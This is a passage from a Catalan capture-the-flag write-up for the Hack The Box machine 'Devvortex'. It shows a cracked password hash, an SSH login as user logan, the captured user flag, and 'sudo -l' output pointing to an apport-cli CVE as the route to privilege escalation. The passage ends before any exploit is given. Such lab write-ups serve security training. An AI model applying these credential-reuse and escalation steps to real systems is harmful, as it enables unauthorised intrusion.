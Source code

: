 ```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>`
```

Com veiem la contrasenya d’en logan és tequieromucho. Ara per tant ens connectarem per ssh directament amb les credencials d’en logan:

```
┌──(polkali㉿polkali)-[/usr/share/wordlists/dirbuster]
└─$ ssh logan@10.10.11.242
````

I ara accedim com a logan:

```
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:~$ whoami
logan`
```

I agafem la flag de l’user:

```
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt
5e26faef8cb226d18bf03fe39d12ec47
logan@devvortex:~$`
```

Ara fem la comanda sudo -l per veure a on té permisos d’execució en logan, i veiem que té permisos aquí:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User logan may run the following commands on devvortex:
 (ALL : ALL) /usr/bin/apport-cli`
```

Per tant busquem per internet el binari apport-cli què fa. A la primera entrada de totes però ja trobem un CVE:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/47e332ae-afe7-4d17-be62-d6f66d794a0e)



L’apport-cli és un petit programa que fa un report quan hi ha un crash.

Per saber la versió de l’apport-cli fem la comanda següent:

```
logan@devvortex:~$ apport-cli --version
2.20.11`
```
